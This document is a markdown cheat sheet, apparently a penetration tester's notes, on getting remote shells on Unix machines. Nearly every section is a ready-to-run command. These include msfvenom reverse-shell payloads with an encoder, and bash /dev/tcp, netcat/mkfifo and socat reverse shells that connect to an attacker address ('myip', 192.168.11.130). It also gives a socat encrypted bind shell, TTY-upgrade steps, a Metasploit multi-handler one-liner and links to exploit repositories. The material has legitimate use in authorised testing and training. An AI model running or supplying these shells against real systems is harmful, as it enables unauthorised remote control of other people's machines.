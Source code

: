 # Unix Remote Code Execution

## msfvenom

Shell File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Java Code

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
```

Encoders

``` bash
msfvenom  --list encoders
```

## Bash Reverse Shell

> Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

``` bash
/bin/sh -c 'sh -i >& /dev/tcp/myip/443 0>&1'
```

``` bash
/bin/sh -c '0<&60-;exec 60<>/dev/tcp/myip/443;sh <&60 >&60 2>&60'
```

## Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Unix machine

``` bash
nc -nv 192.168.11.130 443 -e /bin/sh
```

> Netcat OpenBsd

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

> Netcat BusyBox

```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc myip 443 >/tmp/f
```

## Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Unix machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:/bin/sh
```

## Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Unix machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/sh
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## Nmap NSE Scripts Exploit

``` bash
cd /usr/share/nmap/scripts
grep Exploits *.nse
nmap --script-help=clamav-exec.nse
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

## msfconsole multi handler

``` bash
sudo msfconsole -x "use exploit/multi/handler; set RHOST ip; set PAYLOAD windows/shell_reverse_tcp; set LHOST tun0; exploit"
```

``` bash
processing AutoRunScript 'post/windows/manage/migrate'
```

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">PayloadsAllTheThings</a>

## Exploit Resources

=== "Online"

	[Exploit Database]( https://www.exploit-db.com)

	[SecurityFocus]( https://www.securityfocus.com)

	[Packet Storm](https://packetstormsecurity.com)

	[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

=== "Offline"

	SearchSploit

	Metasploit Framework

	BeEF